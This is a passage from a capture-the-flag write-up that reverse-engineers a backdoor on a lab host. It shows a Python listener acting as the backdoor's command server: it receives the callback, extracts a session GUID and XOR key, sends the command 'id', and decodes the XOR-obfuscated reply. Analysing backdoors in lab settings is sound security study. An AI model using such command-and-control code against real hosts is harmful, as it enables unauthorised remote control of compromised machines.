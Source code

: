 

### Send Commands

#### Plaintext - Fail

Given this is a backdoor, and it's connecting back to me, presumably I
can send it commands. Since I have no idea what that format looks like,
I'll have to do some guessing. I can try just replying with a command:



        c, address = s.accept()
        print(f'[+] Connection from {address}')
        data = c.recv(1024)
        guid, hex_msg = data.split(b'|')
        msg = unhexlify(hex_msg.strip())
        xor_key = unhexlify(msg.split(b':')[-1])

        print(f'{xor_key=}')

        cmd = "id"
        c.send(f"{cmd}\n".encode())
        print(c.recv(1024))            
        c.close()

    s.close()



I'll just use `$sec` of `00` until I see some reason to do otherwise, as
that just leaves things as plaintext. On sending that, there is a
response:



    oxdf@hacky$ python3 c2.py 
    [+] Connection from ('10.10.10.140', 55498)
    xor_key=b'KEY_PREFIX_I_KEY_SUFFIX'
    b'413588b1-b38f-4f82-b07f-79a49b75dfb7|2a242d73\n'



The first bit is the same GUID from the initial connection, so it seems
to be some kind of session id.

The data is useless:



    oxdf@hacky$ echo "2a242d73" | xxd -r -p
    *$-s



But if I XOR it with the `I` character from the message above:



    >>> msg = '2a242d73'
    >>> bytes([x^ord('I') for x in unhexlify(msg)])
    b'cmd:'
